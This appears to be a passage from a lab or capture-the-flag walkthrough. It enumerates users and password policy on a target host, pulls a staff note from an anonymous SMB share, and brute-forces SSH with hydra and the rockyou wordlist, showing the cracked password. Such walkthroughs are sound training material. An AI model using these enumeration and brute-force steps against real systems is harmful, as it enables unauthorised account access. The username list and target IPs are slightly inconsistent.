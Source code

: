 ```
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5

 ======================================================================== 
|    Users on 10.10.108.111 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''
```

From here we found out two possible usernames `kay` and `jan`. From the letter we know Jan's password is pretty weak, so we can try to brute force it using hydra.

### smbclient

1. We can connect to the smb service with `smbclient //10.10.x.x/Anonymous` into the anonymous share by just pressing enter when asked for a password. 
2. Run `ls` to see all available files. There's only one called `staff.txt`
3. Download the file with `get staff.txt`
4. On your machine, read the file. It should say this:
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
With this, we can add another user to the list: `kay`,`jan` and `jay`

### hydra

Let's brute force jan's password first, since he is the one getting scolded in the announcement.

`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.x.x`

- `-l` to specify the user
- `-P` to specify the password list
- `ssh://` to specify the service we want to attack. From the Nmap scan we know that ssh is open.
```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.14.68:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 134.67 tries/min, 404 tries in 00:03h, 14343998 to do in 1775:15h, 16 active
[22][ssh] host: 10.10.14.68   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
